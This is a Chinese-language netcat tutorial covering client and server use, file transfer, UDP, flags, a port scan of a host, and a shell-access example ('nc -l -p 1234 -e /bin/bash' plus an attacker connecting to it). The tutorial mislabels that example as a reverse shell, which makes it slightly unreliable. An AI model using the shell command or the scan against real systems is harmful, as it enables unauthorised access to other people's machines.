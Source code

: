 ### netcat

**Netcat**（简称 `nc`）是一个功能强大的网络工具，广泛用于网络调试、端口扫描、以及测试 TCP/IP 连接。它被称为“网络的瑞士军刀”，因为它既可以作为客户端，也可以作为服务器，用于在网络中进行数据传输。Netcat 可以支持 TCP 和 UDP 协议的连接，功能非常灵活且简单，常用于网络安全测试、故障排除和开发工作。

#### 基本使用

Netcat **作为客户端**使用时，使用命令格式：

```bash
nc [hostname] [port]
```

例如，尝试``192.168.1.1``的``8080``端口可以这么用：

```basj
nc 192.168.1.1 8080
```



Netcat 也可以作为一个简单的**服务器**监听指定端口，并等待连接。使用命令：

```bash
nc -l [port]
```

例如，监听本地`` 1234 ``端口：

```bash
nc -l 1234
```



Netcat 支持通过管道**传输文件**，可以通过标准输入输出发送数据或文件。

+ 发送文件：

```bash
nc [hostname] [port] < file.txt
```

+ 接收文件：

```bash
nc -l [port] > received_file.txt
```



Netcat 也可以用来**扫描目标主机的端口**，检测哪些端口开放。例如，扫描目标主机 `example.com` 的 1 到 1000 端口：

```bash
nc -zv example.com 1-1000
```

​	`-z`：扫描模式，不发送任何数据，只检查端口是否开放。

​	`-v`：启用详细模式，输出详细连接信息。



默认情况下，Netcat 使用 TCP 协议，但它也支持 **UDP 协议**。使用 `-u` 参数指定使用 UDP 协议。

+ 作为 UDP 服务器监听：

```bash
nc -u -l [port]
```

+ 作为 UDP 客户端发送数据：

```bash
echo -n "Hello" | nc -u [hostname] [port]
```



Netcat 可用于**创建反向 shell**（例如进行渗透测试），允许攻击者从远程主机控制目标系统。

+ 目标系统运行以下命令：

```bash
nc -l -p 1234 -e /bin/bash
```

+ 攻击者则通过以下命令连接到目标主机并获取 shell：

```bash
nc [target_ip] 1234
```



#### Netcat 的一些常用选项

- `-l`：让 Netcat 在指定端口上监听。
- `-v`：启用详细模式，显示连接过程的详细信息。
- `-z`：扫描端口，不发送数据，只检查端口是否开放。
- `-u`：使用 UDP 协议进行通信。
- `-p`：指定端口（用于监听时）。
- `-e`：指定程序，当连接建立时，执行该程序（例如 `/bin/bash`）。
- `-n`：不进行 DNS 解析，直接使用 IP 地址。
- `-w`：设置连接超时时间（秒）。